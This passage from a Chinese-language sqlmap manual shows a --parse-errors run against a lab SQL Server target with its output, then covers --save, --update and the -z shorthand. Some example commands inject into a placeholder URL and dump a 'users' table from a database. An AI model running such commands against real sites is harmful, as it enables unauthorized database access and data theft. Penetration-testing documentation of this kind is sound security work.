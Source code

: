 针对Microsoft SQL Server目标的示例：
```
python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
```
输出：
```
[...]
[xx:xx:17] [INFO] ORDER BY technique seems to be usable. This should reduce the 
timeneeded to find the right number of query columns. Automatically extending th
e rangefor current UNION query injection technique test
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 i
s out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is
 out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is
 out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] target URL appears to have 3 columns in query
[...]
```
#### **3.15.18 将参数命令保存在配置INI文件中**
> 参数 --save

可以将参数命令保存到配置INI文件中。然后可以使用`-c`参数编辑生成的文件并将其传递到sqlmap，如上所述。

#### **3.15.19 更新sqlmap**
> 开关 --update

使用此选项，你可以直接从Git存储库将工具更新到最新的开发版本。如果此操作失败，请从你的sqlmap安装目录下执行git pull。它将执行`--update`完全相同的操作。如果你在Windows上运行sqlmap，则可以使用[SmartGit](https://www.syntevo.com/smartgit/index.html)客户端。

强烈建议在提交错误报告之前先更新sqlmap。

### 3.16 其他杂项
#### **3.16.1 使用参数缩写**
> 参数 -z

有时使用参数太长太复杂(例如`--batch --random-agent --ignore-proxy --technique=BEU`)，如何处理这个问题有一个更简单和更短的方法。在sqlmap中它被称为“助记符”。

每个参数和开关都可以使用`-Z`参数写成助记符形式，可以只写前几个字母，如`–batch`可以简写为`bat`,参数之间以逗号分割，简写的前提是参数简写后的形式是唯一的。

例如：
```
python sqlmap.py --batch --random-agent --ignore-proxy --technique=BEU -u "www.target.com/vuln.php?id=1"
```
可被写成
```
python sqlmap.py -z "bat,randoma,ign,tec=BEU" -u "www.target.com/vuln.php?id=1"
```
另一个例子：
```
python sqlmap.py --ignore-proxy --flush-session --technique=U --dump -D testdb -T users -u "www.target.com/vuln.php?id=1"
```
可被写成：
```
python sqlmap.py -z "ign,flu,bat,tec=U,dump,D=testdb,T=users" -u "www.target.com/vuln.php?id=1"
```